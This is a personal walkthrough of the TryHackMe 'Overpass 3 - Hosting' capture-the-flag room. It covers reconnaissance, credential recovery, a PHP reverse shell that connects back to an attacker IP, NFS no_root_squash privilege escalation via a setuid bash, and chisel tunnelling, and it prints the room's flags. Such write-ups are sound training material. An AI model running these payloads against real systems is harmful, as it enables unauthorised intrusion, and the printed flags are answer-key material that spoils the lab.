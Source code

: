 # Tryhackme.com Room : Overpass 3 - Hosting

`https://tryhackme.com/room/overpass3hosting`

## Instance

```bash
export IP="10.10.88.227"
```

## Nmap

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods:
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix
```

## Initial Foothold

Tried anonymous login on the `ftp` but didn't work.

The initial page list team members. Potential usernames :

```
Paradox
Elf
MuirlandOracle
NinjaJc01
```

When looking around, we get a different `Not Found` error when we browse `/index.php` than `/index/index.php`. Different handling if we request a file at the root ?



Let's gobuster the website.

We find a `/backups` folder which contains `backup.zip`

Once unzipped, we got 

```
CustomerDetails.xlsx.gpq
priv.key
```

Let's decrypt the `xlsx` file with the `pgp` key.



When importing the key with `gpg --import key.priv` we see that it belongs to

```
Paradox <paradox@overpass.thm>
```

We find credentials in `CustomerDetails.xlsx` :

```
Name				Username		Password
Par. A. Doxx		paradox			ShibesAreGreat123
0day Montgomery		0day			OllieIsTheBestDog
Muir Land			muirlandoracle	A11D0gsAreAw3s0me
```

Hmmm can't login via `ssh` since it require public/private key.

Tried the credentials on the `ftp` server but they didn't work.

Hmm that's weird since we don't really have any other place to use them

Well, I probably mistyped, the `paradox` user is working on the `ftp` server



We land right in the http server location.

We can upload stuff so let's upload a `php` script see if we have code execution.

And we do, so let's get a `php reverse shell` :

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.32.20/7777 0>&1'");
```

We now have a shell as 

```
uid=48(apache) gid=48(apache) groups=48(apache)
```

There is 2 users on this box :

```
root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:James:/home/james:/bin/bash
paradox:x:1001:1001::/home/paradox:/bin/bash
```

We can't upgrade our shell because we don't have a python binary :( (Maybe there is another way ? Couldn't find any with a quick google)



`sudo -l` require a password.



We find a flag in `/usr/share/httpd/web.flag`

```
thm{0ae72f7870c3687129f7a824194be09d}
```





We ran `linpeas` and found

```
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

We should be able to mount `/home/james` as root on our machine and we should keep our root priviledges (because of `no_root_squash`).

Tried to mount it using ;

```
mount -t nfs 10.10.88.227:/home/james mtnpoint
```

But the connection would timeout. We need to forward the port `2049` to our machine to be able to do so.

Let's use `chisel` to forward the port (`https://github.com/jpillora/chisel` + cheatsheet : `https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html`)



Hmm well, I wasted a lot of time on this.. the chisel port forwarding would not work correctly (Or at least, the nfs mount would not work).

I tried to login via ssh into `paradox` user in the beginning but since it was pubkey only it didn't work.

Well, I was able to `su paradox` with the credentials gathered before.

From there, we were able to insert our own private and public key and login via `ssh` as `paradox`



So now, manybe we can forward the port `2049` using `ssh` and mount the `nfs` share ?

```
ssh -i id_rsa -L 2049:localhost:2049 paradox@overpass.thm
```

```
mount -v -t nfs localhost:/home/james mtnpoint
```



Still not working.. hmmm



Sooo, after a while, I decied to look at a write up. Apparently, we don't need to specify the `/home/james` path when mounting the nfs share... The command is :

```
mount -v -t nfs localhost:/ mtnpoint
```



Now that we have a mount point to `/home/james`

We get the `user.flag` :

```
thm{3693fc86661faa21f16ac9508a43e1ae}
```



## Priv Esc

Now we can simply follow `https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe` 

Since we are `root` in the mounted share, we can simply create a copy of `bash`, set it as `setuid`  and we can launch a root shell by connecting as `james`.



We copy `james` ssh key from the share and login as `james` via `ssh`.

Now we bump into a small problem, seems like the bash version we copied (from our attacker machine) is looking for a shared library that is not available on the victim machine.

We just copy the local `/bin/bash` into `/home/james` then on our machine, in the share we do

```
chown root:root localbash
chmod +s localbash
```

Then finally, from `james` ssh session, we launch `./localbash -p` and get a `root` shell.

Finally !



`/root/root.flag`:

```
thm{a4f6adb70371a4bceb32988417456c44}
```

## Wrap up

* I tried again to use `chisel` to forward the port and it worked great (When mounting the correct share path...). I was able to get the share while being the `apache` user. So i could have skipped the `paradox` user.

  * ```
    Attacker >> ./chisel server -p 6666 --reverse
    Victim 	 >> ./chisel client 10.6.32.20:6666 R:2049:127.0.0.1:2049
    ```

* Should ALWAYS use `verbose` option. I would have realised that it was a path problem if I would have used the `-v` option on `mount`...

## End

